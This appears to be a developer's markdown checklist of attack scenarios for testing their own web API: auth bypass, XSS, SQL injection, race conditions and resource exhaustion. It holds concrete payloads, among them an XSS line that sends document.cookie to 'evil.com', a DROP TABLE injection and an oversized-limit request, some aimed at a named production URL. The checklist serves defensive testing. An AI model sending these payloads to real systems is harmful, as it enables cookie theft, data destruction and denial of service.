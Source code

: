 
## 🔥 SPECIFIC ATTACK SCENARIOS TO TEST

### 1. Auth Bypass
```bash
# Can I access admin endpoints without key?
curl -X POST "https://agitracker-production-6efa.up.railway.app/v1/admin/trigger-ingestion"

# Can I use empty string?
curl -X POST "..." -H "x-api-key: "

# Can I use the old default?
curl -X POST "..." -H "x-api-key: change-me-in-production"

# Timing attack to brute force?
# (Single character comparison vs constant-time)
```

### 2. XSS Injection
```bash
# If I control arXiv feed, can I inject:
{
  "title": "<script>alert('XSS')</script>",
  "summary": "<img src=x onerror='fetch(\"evil.com?cookie=\"+document.cookie)'>",
  "source_url": "javascript:alert(document.domain)"
}

# Will this render unsafely in the frontend?
```

### 3. SQL Injection (you said safe, but verify)
```bash
# Any raw SQL concatenation?
# Check /v1/events with malicious tier param:
curl "https://agitracker-production-6efa.up.railway.app/v1/events?tier=A';DROP TABLE events;--"

# Should be safe via ORM, but verify
```

### 4. Race Condition
```python
# If two Celery tasks ingest same event simultaneously:
# - Will dedup catch it?
# - Could we insert duplicate?
# - Check dedup_hash uniqueness constraint
```

### 5. Resource Exhaustion
```bash
# Can I DoS by requesting huge limit?
curl "https://agitracker-production-6efa.up.railway.app/v1/events?limit=999999"

# Is there a cap? (We set le=100 in some places, not all)
```

---